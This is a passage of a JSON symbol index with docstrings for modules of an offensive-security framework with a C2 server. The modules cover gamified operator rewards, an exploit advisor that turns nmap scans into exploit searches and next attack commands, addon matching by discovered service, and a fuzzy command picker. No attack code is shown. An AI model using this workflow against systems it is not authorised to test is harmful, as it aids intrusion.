"cli/engagement_hooks.py", "kind": "module", "label": "engagement_hooks.py", "language": "py", "sha256": "ebe600b96b43f4d2", "symbol_count": 32, "symbols": [{"doc": "Persisted cross-session engagement metrics.", "kind": "class", "line": 242, "name": "EngagementState", "signature": "class EngagementState"}, {"kind": "function", "line": 260, "name": "_load_state", "signature": "def _load_state()"}, {"kind": "function", "line": 280, "name": "_save_state", "signature": "def _save_state(state)"}, {"kind": "function", "line": 290, "name": "_load_index", "signature": "def _load_index()"}, {"doc": "Return ``cmd`` with a single leading ``do_`` prefix.", "kind": "function", "line": 301, "name": "_normalize_command", "signature": "def _normalize_command(cmd)"}, {"doc": "Return ``True`` when ``cmd`` is a syntactically valid command name.\n\nThe engagement telemetry must never score input-line noise: menu\nselections (``1``), quoted script paths, mistyped emails, host names,\nhyphenated or capitalised tokens, or empty input. This conservative\nsyntactic filter rejects all of those.\n\nIt deliberately does **not** consult the static command index: that index\ncan lag behind the live shell, so gating on it would silently drop real\ncommands. The authoritative membership test lives in the shell post-command\nhook, which checks the token against the live registry via\n``get_all_commands()`` before ever calling in. This function is the\nmodule-level safety net for direct callers and historical sanitisation.\n\nArgs:\n    cmd: Candidate command name, with or without the ``do_`` prefix.\n\nReturns:\n    ``True`` when ``cmd`` matches ``^do_[a-z][a-z0-9_]*$`` once normalised.", "kind": "function", "line": 306, "name": "_is_recordable_command", "signature": "def _is_recordable_command(cmd)"}, {"doc": "Drop malformed entries left by the pre-gate telemetry bug.\n\nOlder state files accumulated tokens such as ``do_1``, ``do_./DEPLOY.sh``\nand ``do_grisuno@gmail.com`` because every first input token was recorded.\nThis heals persisted state: an entry is kept only when it is syntactically\na command and, when an authoritative ``known`` roster is supplied, is a\nmember of it. Duplicates are collapsed preserving first-seen order.\n\nArgs:\n    names: The persisted ``commands_seen`` list.\n    known: Optional authoritative set of ``do_``-prefixed command names\n        (typically the live shell's ``get_all_commands()``). When ``None``\n        only the syntactic filter is applied so real-but-unindexed\n        commands are never dropped.\n\nReturns:\n    A cleaned, de-duplicated list of command names.", "kind": "function", "line": 332, "name": "_sanitize_seen", "signature": "def _sanitize_seen(names, known)"}, {"doc": "Purge non-command entries from persisted ``commands_seen`` in place.\n\nCalled once at shell startup with the live command roster so historical\npollution that survives the syntactic filter (real-looking but invalid\ntokens such as ``do_against`` or ``do_como``) is removed against ground\ntruth. Idempotent: a clean state file is left untouched.\n\nArgs:\n    known: Authoritative set of ``do_``-prefixed command names, typically\n        ``{f\"do_{c}\" for c in shell.get_all_commands()}``.\n\nReturns:\n    The number of entries removed. Zero when nothing changed or on error.", "kind": "function", "line": 365, "name": "heal_commands_seen", "signature": "def heal_commands_seen(known)"}, {"doc": "Draw the next reward trigger from a geometric distribution.", "kind": "function", "line": 394, "name": "_next_threshold", "signature": "def _next_threshold(current)"}, {"kind": "function", "line": 400, "name": "_phase_for_cmd", "signature": "def _phase_for_cmd(cmd, index)"}, {"kind": "function", "line": 409, "name": "_commands_in_phase", "signature": "def _commands_in_phase(phase, index)"}, {"kind": "function", "line": 414, "name": "_summary_for_cmd", "signature": "def _summary_for_cmd(cmd, index)"}, {"doc": "Surface one undiscovered command from the same phase as ``cmd``.", "kind": "function", "line": 431, "name": "_run_curiosity", "signature": "def _run_curiosity(cmd, state, index)"}, {"doc": "Render the streak reward; always succeeds (always renders).", "kind": "function", "line": 459, "name": "_render_streak", "signature": "def _render_streak(ctx)"}, {"doc": "Render arsenal exploration progress bar.", "kind": "function", "line": 488, "name": "_render_exploration", "signature": "def _render_exploration(ctx)"}, {"doc": "Render the current kill-chain phase badge; skips when phase unknown.", "kind": "function", "line": 506, "name": "_render_phase_badge", "signature": "def _render_phase_badge(ctx)"}, {"doc": "Reveal one hidden CLI feature the operator hasn't seen recently.", "kind": "function", "line": 522, "name": "_render_hidden_feature", "signature": "def _render_hidden_feature(ctx)"}, {"doc": "Render a single arsenal usage tip.", "kind": "function", "line": 536, "name": "_render_arsenal_tip", "signature": "def _render_arsenal_tip(ctx)"}, {"doc": "Surface one open task that aligns with the current phase.\n\nReads ``sessions/tasks.json`` written by ``tasks add`` / ACI planner.\nReturns False when no pending task exists so the VRI scheduler can pick\nanother reward instead of rendering an empty line.", "kind": "function", "line": 544, "name": "_render_methodology_task", "signature": "def _render_methodology_task(ctx)"}, {"doc": "Surface one pending objective and a phase-appropriate next command.\n\nReads ``sessions/objectives.jsonl`` (auto-injected objectives from the\nworld model watcher).  Teaches methodology by pairing the objective text\nwith the canonical next command for its phase.", "kind": "function", "line": 583, "name": "_render_methodology_objective", "signature": "def _render_methodology_objective(ctx)"}, {"doc": "Recall the latest operator note and suggest a methodology-aligned command.\n\nReads ``sessions/notes.jsonl`` written by the ``note`` command and pairs\nthe most-recent note with the canonical next command for its recorded\nphase.  Teaches the operator to translate observations into actions.", "kind": "function", "line": 630, "name": "_render_methodology_note", "signature": "def _render_methodology_note(ctx)"}, {"doc": "Pick one VRI reward and render it; retry on no-op rewards.\n\nMethodology rewards may return False when their backing artefact is empty\n(no pending tasks, objectives or notes).  The scheduler then samples a\ndifferent reward instead of printing an empty divider.  After at most\n``_VRI_RETRY_LIMIT`` attempts the streak reward is forced as fallback so\nthe operator always sees something when the schedule fires.", "kind": "function", "line": 672, "name": "_fire_vri_reward", "signature": "def _fire_vri_reward(state, ctx)"}, {"doc": "Return karma rank for an ELO score.\n\nMirrors the bracket function ``get_karma_name`` in ``lazyc2.py`` so the\nterminal and the C2 web UI display identical ranks for the same operator.\n\nArgs:\n    elo: Non-negative integer score.\n\nReturns:\n    Human-facing karma label (``Noob`` … ``Godlike``).", "kind": "function", "line": 716, "name": "get_karma_name", "signature": "def get_karma_name(elo)"}, {"doc": "Compute the ELO delta for executing ``cmd``.\n\nThe reward is the sum of:\n  * ``ELO_BASE`` for any command,\n  * a high-value bonus when ``cmd`` is in ``ELO_HIGH_VALUE_CMDS``,\n  * a phase bonus when ``current_phase`` is in ``ELO_PHASE_BONUS``,\n  * ``ELO_FIRST_TIME_BONUS`` when the operator runs this command for the\n    first time across all sessions,\n  * ``ELO_NEW_PHASE_BONUS`` when the operator enters a phase for the\n    first time across all sessions.\n\nReturns:\n    Positive integer ELO delta to add to the operator's score.", "kind": "function", "line": 734, "name": "_award_elo", "signature": "def _award_elo(cmd, first_time, new_phase, current_phase)"}, {"doc": "Patch ``users.json`` so the C2 dashboard reflects terminal activity.\n\nPriority order for identifying the operator:\n1. Logged-in CLI operator (via ``modules.cli_auth.get_current_operator``)\n2. ``c2_user`` field from ``payload.json`` (legacy bridge)\n\nArgs:\n    delta: ELO points to add (non-negative).\n\nReturns:\n    True when the user row was patched and persisted, False otherwise.", "kind": "function", "line": 760, "name": "_sync_user_elo", "signature": "def _sync_user_elo(delta)"}, {"doc": "Append a notification entry to ``sessions/notifications.json``.\n\nThe C2 dashboard polls this file to render the in-app notification feed,\nso terminal-side rewards become visible in the web UI without any extra\nplumbing.  Writes use a temp-file rename so a concurrent reader never\nsees a half-written JSON document.  The file is capped at\n``_NOTIFICATIONS_RING_SIZE`` entries to prevent unbounded growth.\n\nArgs:\n    html: Sanitized HTML fragment to render inside the dashboard feed.\n\nReturns:\n    True on successful persistence, False on any IO or decoding error.", "kind": "function", "line": 828, "name": "_persist_notification", "signature": "def _persist_notification(html)"}, {"doc": "Fire an out-of-band reward when ELO crosses a karma threshold.\n\nKarma promotions never consume the VRI schedule so the operator gets a\nclear signal that effort translated into rank, independent of the\nvariable reinforcement timer.\n\nReturns:\n    True when a promotion was rendered, False otherwise.", "kind": "function", "line": 864, "name": "_check_karma_up", "signature": "def _check_karma_up(state)"}, {"doc": "Post-command hook: curiosity reveal + ELO + VRI reward when due.\n\nArgs:\n    cmd: The command name that just executed (e.g. \"lazynmap\").\n    phase: Current engagement phase from world_model (e.g. \"recon\").\n    enabled: When False this function is a no-op.  Controlled by\n        ``enable_inline_hints`` in payload.json so the operator can\n        silence all engagement output with one flag.\n\nReturns:\n    None — side effects are at most 2-3 lines written to stdout and one\n    atomic patch each to ``sessions/engagement_state.json``,\n    ``sessions/notifications.json`` and ``users.json``.", "kind": "function", "line": 898, "name": "render_engagement_hook", "signature": "def render_engagement_hook(cmd, phase, enabled)"}, {"doc": "Return a read-only snapshot of current engagement state for CLI display.\n\nUsed by ``do_karma`` in ``lazyown.py`` to print the operator's current\nscore without touching the on-disk state file.  When the state has not\nbeen loaded yet (e.g. immediately after shell startup) this function\nloads it lazily so the first call from ``karma`` returns real data.\n\nReturns:\n    Plain dict with keys ``elo``, ``karma_name``, ``commands_seen``,\n    ``phases_entered``, ``total_commands``, ``session_commands``,\n    ``session_start_ts``, ``elo_session_delta``, ``next_reward_at``,\n    ``badges``.", "kind": "function", "line": 978, "name": "get_state_snapshot", "signature": "def get_state_snapshot()"}, {"doc": "Award operator badges for milestone achievements.\n\nBadges are persistent across sessions and only awarded once.\nThis runs after every command, in-band with the engagement hook\nso the operator sees the reward immediately.", "kind": "function", "line": 1009, "name": "_check_badges", "signature": "def _check_badges(cmd, first_time)"}, {"doc": "Print an unlocked-badge banner to stdout.", "kind": "function", "line": 1056, "name": "_print_badge", "signature": "def _print_badge(name, description)"}, {"doc": "Reset session counters without clearing cross-session progress.\n\nCall this at shell startup so commands_seen accumulates across sessions\nbut session_commands restarts from 0.", "kind": "function", "line": 1066, "name": "reset_session", "signature": "def reset_session()"}]}, {"doc": "Exploit advisor: connects nmap scan results to exploit search and next-step commands.  Two responsibilities: 1. Parse nmap XML files and extract structured (port, service, version) tuples. 2. Map each service to the LazyOwn commands most likely to advance the engagement.  Pure module — no imports from lazyown.py or lazyc2.py.", "id": "cli/exploit_advisor.py", "kind": "module", "label": "exploit_advisor.py", "language": "py", "sha256": "5f052f9d81994c58", "symbol_count": 11, "symbols": [{"doc": "One open port with its service fingerprint.", "kind": "class", "line": 111, "name": "ServiceInfo", "signature": "class ServiceInfo"}, {"doc": "One exploit result from any source.", "kind": "class", "line": 144, "name": "ExploitHit", "signature": "class ExploitHit"}, {"doc": "Aggregated results for one service after exploit search.", "kind": "class", "line": 153, "name": "ServiceResult", "signature": "class ServiceResult"}, {"doc": "Extract open services from a nmap XML file.\n\nArgs:\n    path: Path to the .nmap.xml file.\n\nReturns:\n    List of ServiceInfo for every open TCP/UDP port found.", "kind": "function", "line": 164, "name": "parse_nmap_xml", "signature": "def parse_nmap_xml(path)"}, {"doc": "Return all nmap XML files for a given rhost, newest first.\n\nArgs:\n    rhost: Target IP to filter on.\n    sessions_dir: Path to the sessions directory.\n\nReturns:\n    Sorted list of paths (newest first).", "kind": "function", "line": 203, "name": "find_nmap_xml", "signature": "def find_nmap_xml(rhost, sessions_dir)"}, {"doc": "Print a rich summary table of exploit search results with next-step commands.\n\nArgs:\n    results: List of ServiceResult (one per service searched).\n    rhost: Target IP for display purposes.", "kind": "function", "line": 222, "name": "print_exploit_summary", "signature": "def print_exploit_summary(results, rhost)"}, {"doc": "Save exploit search results to sessions/ss_results_<rhost>.json.\n\nArgs:\n    results: List of ServiceResult to persist.\n    rhost: Target IP (used in filename).\n    sessions_dir: Path to sessions directory.\n\nReturns:\n    Path to the written file.", "kind": "function", "line": 296, "name": "save_ss_results", "signature": "def save_ss_results(results, rhost, sessions_dir)"}, {"doc": "Append one task per service with significant exploit hits to tasks.json.\n\nArgs:\n    results: Results from exploit search.\n    rhost: Target IP for task context.\n    tasks_path: Path to tasks.json.\n\nReturns:\n    Number of tasks created.", "kind": "function", "line": 338, "name": "inject_exploit_tasks", "signature": "def inject_exploit_tasks(results, rhost, tasks_path)"}, {"doc": "Best query string for searchsploit / NVD.", "kind": "method", "line": 122, "name": "search_query", "signature": "def search_query(self)"}, {"kind": "method", "line": 128, "name": "display_name", "signature": "def display_name(self)"}, {"doc": "Return (command, reason) pairs recommended for this service.", "kind": "method", "line": 132, "name": "next_commands", "signature": "def next_commands(self)"}]}, {"doc": "Exploration engine: trigger and OS aware addon/tool matching.  This module is the single source of truth for two new operator-facing features:  1. Filtering ``lazyaddons/*.yaml`` and ``tools/*.tool`` entries by the nmap services discovered in ``sessions/scan_*.nmap.xml`` and the victim platform recorded in ``payload.json`` (``os_id`` / ``platform``). 2. Computing an exploration coverage report consumed by the ``explore`` shell command, ``suggest_next``, and ``recommend_next``.  Design (SOLID):  - ``ExplorationConfig`` centralises every magic value (default paths, glob patterns, MITRE platform whitelist, OS aliases). - ``DiscoveredService``, ``AddonEntry``, ``ToolEntry`` are immutable value objects. - ``NmapXmlReader`` is the only piece that touches XML. - ``AddonCatalog`` and ``ToolCatalog`` each have one reason to change (their respective on-disk schema). - ``TriggerMatcher`` is a pure ranking primitive. - ``ExplorationEngine`` composes the pieces above and exposes the small public surface used by the CLI, MCP layer, and tests.  The module has zero coupling to ``cmd2``, ``flask``, ``rich`` or ``lazyown.py`` and every public method returns plain Python types so it can be reused inside the shell, the MCP server, or the Textual TUI without modification.", "id": "cli/exploration.py", "kind": "module", "label": "exploration.py", "language": "py", "sha256": "28d81358c5bdf02d", "symbol_count": 48, "symbols": [{"doc": "Centralised constants for the exploration engine.\n\nEvery path, glob, default value and whitelist lives here so the\nengine is fully data-driven and trivially testable.", "kind": "class", "line": 68, "name": "ExplorationConfig", "signature": "class ExplorationConfig"}, {"doc": "A single open port discovered by nmap on a host.", "kind": "class", "line": 87, "name": "DiscoveredService", "signature": "class DiscoveredService"}, {"doc": "A parsed lazyaddon YAML file with trigger/OS metadata.", "kind": "class", "line": 105, "name": "AddonEntry", "signature": "class AddonEntry"}, {"doc": "A parsed ``.tool`` file from the ``tools/`` directory.", "kind": "class", "line": 119, "name": "ToolEntry", "signature": "class ToolEntry"}, {"doc": "Aggregate exploration metrics for the active engagement.", "kind": "class", "line": 132, "name": "CoverageReport", "signature": "class CoverageReport"}, {"doc": "Read discovered services from nmap XML files in ``sessions/``.\n\nFalls back to the stdlib XML parser to avoid coupling to ``libnmap``\nwhich is only an optional runtime dependency in tests.", "kind": "class", "line": 169, "name": "NmapXmlReader", "signature": "class NmapXmlReader"}, {"doc": "Load every ``lazyaddons/*.yaml`` exposing ``os`` and ``trigger``.\n\nMissing fields default to ``os: any`` and ``trigger: []`` so existing\naddons continue to load without modification. Parsed entries are\ncached per-process by ``(path, mtime)`` so repeated ``load()`` calls\ninside long-lived sessions (CLI shell, MCP server) re-parse only the\nYAML files that actually changed on disk.", "kind": "class", "line": 252, "name": "AddonCatalog", "signature": "class AddonCatalog"}, {"doc": "Load every ``tools/*.tool`` exposing ``os`` and ``trigger``.\n\nThe ``.tool`` schema already carries a ``trigger`` list; this catalog\nadds OS awareness with a ``any`` default so the legacy files keep\nworking. Parsed entries are cached per-process by ``(path, mtime)``\nso repeated ``load()`` calls only re-parse changed files.", "kind": "class", "line": 333, "name": "ToolCatalog", "signature": "class ToolCatalog"}, {"doc": "Match addons and tools against discovered services + current OS.", "kind": "class", "line": 410, "name": "TriggerMatcher", "signature": "class TriggerMatcher"}, {"doc": "Read previously executed commands from the session CSV transcript.", "kind": "class", "line": 470, "name": "HistoryReader", "signature": "class HistoryReader"}, {"doc": "Compose nmap + addons + tools + history into a coverage view.\n\nThis is the entry point used by ``do_explore``, ``do_suggest_next``\nand ``do_recommend_next``. It does no I/O on its own — every read is\ndelegated to a single-responsibility collaborator.", "kind": "class", "line": 502, "name": "ExplorationEngine", "signature": "class ExplorationEngine"}, {"doc": "Resolve the current victim platform from a payload-like mapping.\n\nThe lookup honours both the explicit ``platform`` key (new) and the\nlegacy numeric ``os_id`` so existing payload.json files keep working.\nUnknown or missing values fall back to :data:`ANY_OS`.", "kind": "function", "line": 656, "name": "resolve_current_os", "signature": "def resolve_current_os(payload)"}, {"doc": "Coerce arbitrary YAML/JSON values to a whitelisted OS string.", "kind": "function", "line": 677, "name": "normalise_os", "signature": "def normalise_os(value, default)"}, {"doc": "Coerce arbitrary YAML/JSON values to a tuple of trigger strings.", "kind": "function", "line": 690, "name": "normalise_trigger", "signature": "def normalise_trigger(value)"}, {"doc": "Return a compact human-readable label such as ``smb:445/tcp``.", "kind": "method", "line": 98, "name": "label", "signature": "def label(self)"}, {"doc": "Fraction of discovered services with at least one run command.", "kind": "method", "line": 145, "name": "service_coverage", "signature": "def service_coverage(self)"}, {"doc": "Fraction of enabled addons that have been executed at least once.", "kind": "method", "line": 153, "name": "addon_coverage", "signature": "def addon_coverage(self)"}, {"doc": "Fraction of active tools that have been executed at least once.", "kind": "method", "line": 161, "name": "tool_coverage", "signature": "def tool_coverage(self)"}, {"doc": "Store the configuration used to locate the nmap XML directory.", "kind": "method", "line": 176, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return every open service across every nmap XML in sessions.\n\nArgs:\n    target: Optional rhost filter. When provided, only files that\n        contain the target in their filename are read.\nReturns:\n    A flat list of :class:`DiscoveredService` instances.", "kind": "method", "line": 181, "name": "discover", "signature": "def discover(self, target)"}, {"doc": "Yield matching nmap XML paths, optionally filtered by target.", "kind": "method", "line": 196, "name": "_iter_xml_paths", "signature": "def _iter_xml_paths(self, target)"}, {"doc": "Parse a single nmap XML file. Tolerates malformed input.", "kind": "method", "line": 210, "name": "_parse_one", "signature": "def _parse_one(xml_path)"}, {"doc": "Store the configuration used to locate the addons directory.", "kind": "method", "line": 264, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return every parseable addon as an :class:`AddonEntry`.", "kind": "method", "line": 269, "name": "load", "signature": "def load(self)"}, {"doc": "Return the cached entry when the file mtime is unchanged.", "kind": "method", "line": 282, "name": "_load_with_cache", "signature": "def _load_with_cache(self, path)"}, {"doc": "Drop the per-process addon cache (mainly used by tests).", "kind": "method", "line": 299, "name": "clear_cache", "signature": "def clear_cache(cls)"}, {"doc": "Parse a single addon file. Returns ``None`` on parse failure.", "kind": "method", "line": 304, "name": "_parse_one", "signature": "def _parse_one(self, path)"}, {"doc": "Store the configuration used to locate the tools directory.", "kind": "method", "line": 344, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return every parseable ``.tool`` file as a :class:`ToolEntry`.", "kind": "method", "line": 349, "name": "load", "signature": "def load(self)"}, {"doc": "Return the cached entry when the file mtime is unchanged.", "kind": "method", "line": 362, "name": "_load_with_cache", "signature": "def _load_with_cache(self, path)"}, {"doc": "Drop the per-process tool cache (mainly used by tests).", "kind": "method", "line": 379, "name": "clear_cache", "signature": "def clear_cache(cls)"}, {"doc": "Parse a single tool file. Returns ``None`` on parse failure.", "kind": "method", "line": 384, "name": "_parse_one", "signature": "def _parse_one(self, path)"}, {"doc": "Store the platform used to filter incompatible entries.", "kind": "method", "line": 413, "name": "__init__", "signature": "def __init__(self, current_os)"}, {"doc": "Return addons whose trigger and OS match the given service.", "kind": "method", "line": 418, "name": "addons_for_service", "signature": "def addons_for_service(self, service, addons)"}, {"doc": "Return active tools whose trigger and OS match the service.", "kind": "method", "line": 435, "name": "tools_for_service", "signature": "def tools_for_service(self, service, tools)"}, {"doc": "Return True when ``candidate_os`` is ``any`` or equals current OS.", "kind": "method", "line": 452, "name": "_os_compatible", "signature": "def _os_compatible(self, candidate_os)"}, {"doc": "Return True when ``service_name`` is listed in trigger or wildcard.", "kind": "method", "line": 460, "name": "_trigger_matches", "signature": "def _trigger_matches(trigger, service_name)"}, {"doc": "Store the configuration used to locate the transcript file.", "kind": "method", "line": 473, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return the set of unique tool/command names already run.", "kind": "method", "line": 478, "name": "executed_commands", "signature": "def executed_commands(self)"}, {"doc": "Wire collaborators together using the supplied configuration.", "kind": "method", "line": 510, "name": "__init__", "signature": "def __init__(self, config, current_os)"}, {"doc": "Return the discovered services for the engagement.", "kind": "method", "line": 525, "name": "services", "signature": "def services(self, target)"}, {"doc": "Return the parsed lazyaddon catalogue.", "kind": "method", "line": 530, "name": "addons", "signature": "def addons(self)"}, {"doc": "Return the parsed ``.tool`` catalogue.", "kind": "method", "line": 535, "name": "tools", "signature": "def tools(self)"}, {"doc": "Return the set of already-executed command names.", "kind": "method", "line": 540, "name": "history", "signature": "def history(self)"}, {"doc": "Group matching addons and tools by service for a target.\n\nReturns:\n    Mapping ``service.label -> {\"addons\": [...], \"tools\": [...]}``\n    covering every open port in the latest scan for the target.", "kind": "method", "line": 545, "name": "suggestions_for_target", "signature": "def suggestions_for_target(self, target)"}, {"doc": "Return addons triggered by the scan that have never been run.", "kind": "method", "line": 568, "name": "unexplored_addons", "signature": "def unexplored_addons(self, target)"}, {"doc": "Return tools triggered by the scan that have never been run.", "kind": "method", "line": 589, "name": "unexplored_tools", "signature": "def unexplored_tools(self, target)"}, {"doc": "Return an aggregate :class:`CoverageReport` for the engagement.", "kind": "method", "line": 610, "name": "coverage", "signature": "def coverage(self, target)"}]}, {"doc": "Rich-based renderers for the exploration engine.  Keeps the rendering logic out of :mod:`cli.exploration` so the engine stays pure (no console / no terminal dependency) and trivially unit- testable. Every renderer here accepts plain dataclasses from the engine and writes to a :class:`rich.console.Console` instance supplied by the caller, so the shell, the dashboard TUI and the tests can all share the same output without coupling.", "id": "cli/exploration_view.py", "kind": "module", "label": "exploration_view.py", "language": "py", "sha256": "efbbab72c493033f", "symbol_count": 6, "symbols": [{"doc": "Render the full ``explore`` view to ``console``.\n\nArgs:\n    console: Rich console used for output.\n    engine: Pre-configured exploration engine to query.\n    target: Optional rhost filter for the nmap scan lookup.\n    history: Set of already executed command/tool/addon names.", "kind": "function", "line": 39, "name": "render_exploration", "signature": "def render_exploration(console, engine, target, history)"}, {"doc": "Render the heading panel summarising scope and coverage.", "kind": "function", "line": 71, "name": "_render_header", "signature": "def _render_header(console, target, coverage)"}, {"doc": "Render the host -> service -> addons/tools tree.", "kind": "function", "line": 93, "name": "_render_service_tree", "signature": "def _render_service_tree(console, services, grouped, history)"}, {"doc": "Render a row per addon or tool under a service branch.", "kind": "function", "line": 140, "name": "_render_entries", "signature": "def _render_entries(parent, entries, history, style, kind)"}, {"doc": "Render the 'try these next' section for the active scan.", "kind": "function", "line": 161, "name": "_render_unexplored", "signature": "def _render_unexplored(console, unexplored_addons, unexplored_tools)"}, {"doc": "Render a coverage percentage summary table.", "kind": "function", "line": 196, "name": "_render_coverage_table", "signature": "def _render_coverage_table(console, coverage)"}]}, {"doc": "Non-interactive fuzzy matching reusing the picker's scorer.  The curses dropdown in :mod:`cli.fuzzy_picker` already ranks candidates with :class:`MatchScorer`. Typo correction (did you mean) and headless suggestion need the same ranking without a terminal UI. This module is the thin pure adapter: build picker items, rank, return names.", "id": "cli/fuzzy_match.py", "kind": "module", "label": "fuzzy_match.py", "language": "py", "sha256": "b446af0e829cd08f", "symbol_count": 3, "symbols": [{"doc": "Centralized knobs for fuzzy suggestion.", "kind": "class", "line": 18, "name": "FuzzyMatchConfig", "signature": "class FuzzyMatchConfig"}, {"doc": "Return up to limit candidate names ranked by relevance to query.\n\nArgs:\n    query: Raw operator input, possibly a typo or prefix fragment.\n    candidates: Command or phase names to rank.\n    limit: Maximum names returned.\n    config: Picker scoring constants. Defaults to PickerConfig().\n\nReturns:\n    Ranked names, strongest first. Empty when nothing scores above zero.", "kind": "function", "line": 28, "name": "suggest", "signature": "def suggest(query, candidates, limit, config)"}, {"doc": "Return the single best correction for query or None.\n\nArgs:\n    query: Raw operator input.\n    candidates: Names to correct against.\n\nReturns:\n    Best candidate name, or None when no candidate scores.", "kind": "function", "line": 56, "name": "did_you_mean", "signature": "def did_you_mean(query, candidates)"}]}, {"doc": "Curses-based fuzzy dropdown picker for the LazyOwn interactive shell.  This module is self-contained: it ships a ``PickerConfig`` with every tunable constant, a pure scoring primitive, a curses view, an orchestrator that wires them together, and a thin readline bridge that installs the picker into a ``cmd2`` shell as the Tab-completion display handler.  The module follows SOLID:  - ``PickerConfig`` centralises every magic value (colors, key codes, geometry, glyphs) so callers can override without touching the core. - ``MatchScorer`` is the only place that knows how to rank a candidate against a query (Strategy / Single Responsibility). - ``PickerView`` is an abstract base class; ``CursesPickerView`` is the only concrete realisation but tests can substitute a fake without touching curses (Dependency Inversion / Liskov). - ``FuzzyPicker`` orchestrates scorer + view and exposes a small surface. - ``ReadlineBridge`` is the integration adaptor with the GNU readline display hook contract; it never imports cmd2. - ``install_fuzzy_completion`` is the only public entry point cmd2 callers should use.  The picker is invoked on a single Tab press whenever readline reports two or more candidate completions. With a single candidate, readline's default behaviour is preserved (auto-insert). The picker honours arrow navigation, Tab/Enter for selection, Escape/Ctrl-C/Ctrl-G for cancel, and Backspace to edit the query in-place. Selection is injected back into the readline buffer through ``readline.insert_text`` so the rest of the framework sees the same final input string it would have seen with a normal completion.", "id": "cli/fuzzy_picker.py", "kind": "module", "label": "fuzzy_picker.py", "language": "py", "sha256": "bbb289f737d7027c", "symbol_count": 41, "symbols": [{"doc": "Centralised constants for the fuzzy picker.\n\nEvery magic number / glyph / key code lives here so that operators or\ntests can override behaviour without editing the picker core. Instances\nare frozen to keep the configuration value-semantics-safe.", "kind": "class", "line": 50, "name": "PickerConfig", "signature": "class PickerConfig"}, {"doc": "Single candidate displayed in the picker.\n\n``text`` is the value inserted into the readline buffer on selection.\n``description`` is an optional secondary string rendered to the right of\nthe name; it never participates in matching.", "kind": "class", "line": 140, "name": "PickerItem", "signature": "class PickerItem"}, {"doc": "A picker item paired with a relevance score and matched positions.", "kind": "class", "line": 153, "name": "ScoredItem", "signature": "class ScoredItem"}, {"doc": "Score and rank candidates against a query.\n\nThe scorer prefers exact and prefix matches, then ordered-subsequence\nmatches (the classic fuzzy-finder behaviour), then substring matches,\nthen ``difflib`` similarity as a graceful floor. Positions of matched\ncharacters are exposed for in-line highlighting in the view.", "kind": "class", "line": 161, "name": "MatchScorer", "signature": "class MatchScorer"}, {"doc": "Abstract view contract for a fuzzy picker.\n\nReturning ``None`` signals the user cancelled the picker. Returning a\nstring is the selected ``PickerItem.text`` to be injected into readline.\nTests can substitute a deterministic fake view to drive integration\nscenarios.", "kind": "class", "line": 221, "name": "PickerView", "signature": "class PickerView(ABC)"}, {"doc": "Curses-driven implementation of :class:`PickerView`.\n\nThe view paints a bordered dropdown anchored to the cursor location and\nconsumes keystrokes until the user selects an entry or cancels. All\nlayout values come from :class:`PickerConfig` so the geometry can be\nretuned by operators without source edits.", "kind": "class", "line": 234, "name": "CursesPickerView", "signature": "class CursesPickerView(PickerView)"}, {"doc": "Top-level orchestrator binding a scorer to a view.", "kind": "class", "line": 548, "name": "FuzzyPicker", "signature": "class FuzzyPicker"}, {"doc": "Bridge a :class:`FuzzyPicker` into GNU readline's display hook.\n\nThe bridge is the single place that touches the ``readline`` module so\nthat the rest of the picker code remains testable without a terminal.\nInstallation is idempotent: calling :py:meth:`install` twice replaces\nany previously installed hook, which keeps a single live picker per\nshell process.", "kind": "class", "line": 580, "name": "ReadlineBridge", "signature": "class ReadlineBridge"}, {"doc": "Install the fuzzy picker into a cmd2 shell.\n\nThe function is the single public entry point used by ``lazyown.py``.\nReturns the live :class:`ReadlineBridge` so the caller can later\nuninstall the hook (useful in tests). Returns ``None`` when running in\na non-interactive environment where readline is unavailable.", "kind": "function", "line": 645, "name": "install_fuzzy_completion", "signature": "def install_fuzzy_completion(shell, payload, config)"}, {"doc": "Build a config from a payload.json view, falling back to defaults.\n\nHonours an optional ``fuzzy_picker`` mapping inside ``payload.json``\nso operators can pin the picker geometry without code changes. Any\nunknown key is ignored.", "kind": "method", "line": 117, "name": "from_payload", "signature": "def from_payload(cls, payload)"}, {"kind": "method", "line": 170, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return ``items`` ranked by descending relevance against ``query``.\n\nAn empty query yields every input ranked by its position in the\noriginal sequence so the operator sees a stable list.", "kind": "method", "line": 173, "name": "rank", "signature": "def rank(self, items, query)"}, {"kind": "method", "line": 190, "name": "_score", "signature": "def _score(self, haystack, query)"}, {"kind": "method", "line": 209, "name": "_subsequence_positions", "signature": "def _subsequence_positions(haystack, query)"}, {"kind": "method", "line": 231, "name": "run", "signature": "def run(self, items, initial_query)"}, {"kind": "method", "line": 243, "name": "__init__", "signature": "def __init__(self, config, scorer)"}, {"kind": "method", "line": 247, "name": "run", "signature": "def run(self, items, initial_query)"}, {"kind": "method", "line": 260, "name": "_tty_available", "signature": "def _tty_available()"}, {"kind": "method", "line": 263, "name": "_init_colors", "signature": "def _init_colors(self)"}, {"kind": "method", "line": 287, "name": "_event_loop", "signature": "def _event_loop(self, stdscr, items, initial_query)"}, {"kind": "method", "line": 337, "name": "_classify_key", "signature": "def _classify_key(self, key)"}, {"kind": "method", "line": 361, "name": "_visible_rows", "signature": "def _visible_rows(self)"}, {"kind": "method", "line": 364, "name": "_clamp_scroll", "signature": "def _clamp_scroll(self, offset, cursor, total)"}, {"kind": "method", "line": 374, "name": "_layout", "signature": "def _layout(self, stdscr, row_count)"}, {"kind": "method", "line": 386, "name": "_render_empty", "signature": "def _render_empty(self, stdscr, query)"}, {"kind": "method", "line": 405, "name": "_render", "signature": "def _render(self, stdscr, ranked, query, cursor_index, scroll_offset)"}, {"kind": "method", "line": 435, "name": "_draw_box", "signature": "def _draw_box(self, stdscr, top, left, height, width)"}, {"kind": "method", "line": 450, "name": "_draw_header", "signature": "def _draw_header(self, stdscr, top, left, width, query, total, selected)"}, {"kind": "method", "line": 469, "name": "_draw_footer", "signature": "def _draw_footer(self, stdscr, row_y, left, width)"}, {"kind": "method", "line": 482, "name": "_draw_item", "signature": "def _draw_item(self, stdscr, row_y, left, width, scored, selected)"}, {"kind": "method", "line": 516, "name": "_draw_highlighted", "signature": "def _draw_highlighted(self, stdscr, row_y, start_x, text, positions, base_attr, selected)"}, {"kind": "method", "line": 539, "name": "_color", "signature": "def _color(self, pair_id)"}, {"kind": "method", "line": 551, "name": "__init__", "signature": "def __init__(self, 